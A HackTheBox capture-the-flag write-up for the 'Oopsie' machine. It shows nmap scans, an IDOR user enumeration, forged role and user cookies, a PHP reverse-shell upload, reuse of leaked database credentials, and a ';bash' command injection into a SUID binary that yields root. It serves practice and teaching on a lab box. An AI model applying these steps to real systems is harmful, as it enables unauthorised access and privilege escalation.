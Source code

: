 ```yaml
---
title: Oopsie
description: Oopsie box from HackTheBox write up.
---
```


# Oopsie <a href='/assets/resources/HackTheBox/Oopsie-resources.zip' title="Download resources"> :material-folder-zip:{:alt="Download resources"} </a>

## nmap scan

Look's like only ports 22 and 80 are open:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Oopsie]
└─$ sudo nmap <MACHINE_IP> -p- -v
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-31 10:01 EDT
Initiating Ping Scan at 10:01
Scanning <MACHINE_IP> [4 ports]
Completed Ping Scan at 10:01, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:01
Completed Parallel DNS resolution of 1 host. at 10:01, 0.05s elapsed
Initiating SYN Stealth Scan at 10:01
Scanning <MACHINE_IP> [65535 ports]
Discovered open port 22/tcp on <MACHINE_IP>
Discovered open port 80/tcp on <MACHINE_IP>
Completed SYN Stealth Scan at 10:02, 33.14s elapsed (65535 total ports)
Nmap scan report for <MACHINE_IP>
Host is up (0.055s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 33.59 seconds
           Raw packets sent: 65552 (2.884MB) | Rcvd: 66053 (2.747MB)
```

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Oopsie]
└─$ sudo nmap <MACHINE_IP> -p 22,80 -sC -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-31 10:06 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```

## Port 80

Here we find the MegaCorp Automotive website that works with `php` files. With manual enumeration the admin email: `admin@megacorp.com` can be discovered and also a login page at `/cdn-cgi/login/`.

According to `gobuster` a `uploads` directory is present. The server has the directory listing disabled sadly so let's note that for later.

Using a previous challenge password we can login with `admin:MEGACORP_4dm1n!!`!. Once inside, the admin pannel looks like there is an upload feature but requires super admin access, the thing is that this page looks vulnerable to `IDOR` vulnerability in `/cdn-cgi/login/admin.php?content=accounts&id=1` because it is possible to specify any `id` we want. With a little Python script let's look for that super admin account (Burb can be used but hey, i wanted to be creative here):

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Oopsie]
└─$ ./enumerate_users.py
Index: 1 --> <tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>34322</td><td>admin</td><td>admin@megacorp.com</td></tr>
Index: 2 --> Not exists
Index: 3 --> Not exists
Index: 4 --> <tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>8832</td><td>john</td><td>john@tafcz.co.uk</td></tr>
Index: 5 --> Not exists
Index: 6 --> Not exists
Index: 7 --> Not exists
Index: 8 --> Not exists
Index: 9 --> Not exists
Index: 10 --> Not exists
Index: 11 --> Not exists
Index: 12 --> Not exists
Index: 13 --> <tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>57633</td><td>Peter</td><td>peter@qpic.co.uk</td></tr>
Index: 14 --> Not exists
Index: 15 --> Not exists
Index: 16 --> Not exists
Index: 17 --> Not exists
Index: 18 --> Not exists
Index: 19 --> Not exists
Index: 20 --> Not exists
Index: 21 --> Not exists
Index: 22 --> Not exists
Index: 23 --> <tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>28832</td><td>Rafol</td><td>tom@rafol.co.uk</td></tr>
Index: 24 --> Not exists
Index: 25 --> Not exists
Index: 26 --> Not exists
Index: 27 --> Not exists
Index: 28 --> Not exists
Index: 29 --> Not exists
Index: 30 --> <tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>86575</td><td>super admin</td><td>superadmin@megacorp.com</td></tr>
Index: 31 --> Not exists
Index: 32 --> Not exists
```

Our super admin account has the id 30. Checking the page cookies i found 2 of them: user (The access key id) and role, because they are just plain text values we can change it to whatever we want. In this case:

```
role=super admin
user=86575
```

Now we can use the upload feature and get a potencial RCE.

### Reverse shell

To get a reverse shell we have to upload a PHP reverse shell to the page and after setting up the listenner we can just execute it in `/uploads/ourFile.php`.


## Privesc

### As www-data in the box

Looking around the box i found the credentials for the database:

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php 
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Maybe we can try that credentials to get access to the box robert account:

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
robert@oopsie:/var/www/html/cdn-cgi/login$
```

Cool! We have `ssh` access too now.

### As robert in the box

The user flag is in `/home/robert/user.txt`. Looking around, looks like `robert` is part of the `bugtracker` group. This group can execute a SUID binary owned by `root`.

The program basically executes `cat /root/reports/` with a 'bug id' concatenated to the end but it doesn't sanitize the user input so we can abuse it:

```bash
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ;id
---------------

cat: /root/reports/: Is a directory
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

As we can see, we executed the `id` command as `root` since this program has the SUID binary set, lets get `root` access:

```bash
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ;bash
---------------

cat: /root/reports/: Is a directory
root@oopsie:/# 
```

The `root` flag is in `/root/root.txt`.
